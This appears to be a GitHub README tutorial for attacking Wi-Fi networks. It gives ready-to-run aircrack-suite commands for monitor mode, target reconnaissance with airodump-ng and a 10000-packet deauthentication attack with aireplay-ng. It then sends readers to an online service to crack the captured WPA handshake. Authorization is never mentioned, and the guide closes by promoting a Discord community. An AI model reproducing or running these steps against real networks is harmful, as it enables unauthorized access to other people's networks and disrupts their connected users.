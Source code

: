 <h1 align="center">Wifi Hack Handshake attack</h1>

[![N|dc](https://i.hizliresim.com/3vwdudh.png)](https://discord.gg/5sYSzWQJ3Z)

<details> 
 <summary><strong>Contents (İçindekiler)</strong></summary>
 <p>

* Monitor - Managed mod
  - [mon & man](#monman)
* Airodump-ng
  - [Gathering information](#infonet)
* Aireplay-ng
  - [Attack/Handshake](#attack)
* Decrypt Handshake
  - [Dec. Handshake file](#decrypt)

<br>
</details>

# Wifi Hack

## Catch Handshake

### ([▲](#top)) Monitor & Manage <a name="monman"></a>
`Turning on monitor mode`, example usage:
- `airmon-ng start <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng start wlan0
```
<a href="https://i.hizliresim.com/jr314du.png">Airmon</a></br>
<a href="https://i.hizliresim.com/74x8rav.png">iwconfig</a>

`Turning off monitor mode`, example usage:
- `airmon-ng stop <interface>`
```
┌──(root💀kali)-[~]
└─# airmon-ng stop wlan0
```

### ([▲](#top)) Gathering information about networks <a name="infonet"></a>

`start monitoring networks`, airodump-ng <interface> example usage:

```
┌──(root💀kali)-[~]
└─# airodump-ng wlan0mon
```
<a href="https://www.hizliresim.com/jemkzmg.png">Airodump</a>

```
BSSID = MAC Address
Power = PWR - Signal power
Data = the data we have
CH = Channel - What channel is it on
ENC = Encryption model
CIPHER = Decrypton model
ESSID = network name
Example airodump-ng usage:
```
- For the information gathering and deauthentication attack for the network to be attacked, we first need to enter the following line of code, example usage:
`airodump-ng --bssid <bssid> --channel <channel_number> --write <filename> <interface>`

```
┌──(root💀kali)-[~]
└─# airodump-ng --bssid 0A:1B:2C:3D:4E:5F --channel 5 --write handshake_file wlan0mon
```

### ([▲](#top)) Attack target <a name="attack"></a>

- Deauthentication attack, The product connected to wifi needs to be dropped from the network. Example usage:

`aireplay-ng --deauth <#packets> -a <target_MAC> -c <station> <interface>`

```
┌──(root💀kali)-[~]
└─# aireplay-ng --deauth 10000 -a 0A:1B:2C:3D:4E:5F -c 0A:1B:2C:3D:4E:5F wlan0mon
```
<a href="https://www.hizliresim.com/bfjo2y6.png">Aireplay</a>

NOTE: Our goal here is to remove the user connected to our target network from the network and reconnect, and to capture and decrypt the encrypted numbers that occur in the air when the user wants to reconnect to the network.

### ([▲](#top)) Decrypt Handshake <a name="decrypt"></a>

- Previously, we were able to crack handshake files with the aircrack-ng command, but these days could take weeks, with the resource I will give you, you can crack the handshakes you have captured without even having to keep your computer open :)

`https://hashes.com/en/decrypt/hash`





`Soon, the program written in python will come.`

You can support us by joining our community, thanks for reading. > https://discord.gg/5sYSzWQJ3Z